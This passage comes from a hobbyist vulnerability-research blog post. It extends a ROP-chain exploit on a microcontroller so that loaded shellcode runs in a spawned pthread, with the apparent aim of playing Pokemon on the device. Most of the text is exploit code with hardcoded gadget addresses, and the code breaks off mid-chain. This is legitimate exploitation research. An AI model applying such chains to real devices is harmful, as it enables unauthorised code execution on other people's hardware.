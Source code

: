 ```yaml
---
published: true
title: "🪂 [4] Gotta Catch 'Em All!"
toc: true
toc_sticky: true
categories:
  - VR
tags:
  - Exploitation
  - ROP
  - Shellcode
  - C
tagline: "Now that we have pretty reliable execution of shellcode, lets see if this MCU is powerful enough to play some classic Pokemon games!"
excerpt: "I really fancy playing some Pokemon Red, but I don't have a Gameboy..."
---
```


# Spawning a Thread

At this stage, we are jumping straight to our shellcode and exiting - it would be much better if we could simply spawn a thread that runs our payload.

To do this, we rewrite the ROP-chain to execute the following functions (note we could use the **rt_thread** functions, but these nicely provided **pthread** wrappers work well enough):

- **pthread_attr_init( &attr );**
- **pthread_attr_setstacksize( &attr, 0x4000 );**
- **pthread_attr_setschedparam( 0xf );**
- **pthread_create( &thread_id, &attr, thread_function, NULL );**

We use this code to spawn a thread that executes our shellcode (which is the **thread_function** in the above code).

Here is the ROP-chain (minus the **fopen** *test.aac* we saw previously to load the shellcode into a buffer and the fixup stuff):

```
-python
...
rop_chain += p32(0x00000000) # r4
rop_chain += p32(0xc01fd974) # r5 <- address of pthread_attr_init
rop_chain += p32(0xc09cc4a8) # r6 <- address of our attribute thing (copied into r0)
rop_chain += p32(0x00000000) # r7
rop_chain += p32(0x00000000) # r8 
rop_chain += p32(0xc03edf0c) # r9
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc00bad9c) # pc

# need to do the following:
# - call pthread_attr_init
# - call pthread_attr_setstacksize(0x4000)
# - call pthread_attr_setschedparam(0xf)
# - call pthread_create

# | 0xc00bad9c | cpy r0,r6 | c00bada0 | blx r9 |  

## call pthread_attr_init
# | 0xc03edf0c | c03edf0c | blx r5 | c03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 
rop_chain += p32(0x00000000) # r4
rop_chain += p32(0xc01fdb84) # r5 <- address of pthread_attr_setstacksize
rop_chain += p32(0xc09cc4a8) # r6 <- address of our attribute thing (copied into r0)
rop_chain += p32(0xc03edf0c) # r7
rop_chain += p32(0x00004000) # r8 <- stack size (copied into r1)
```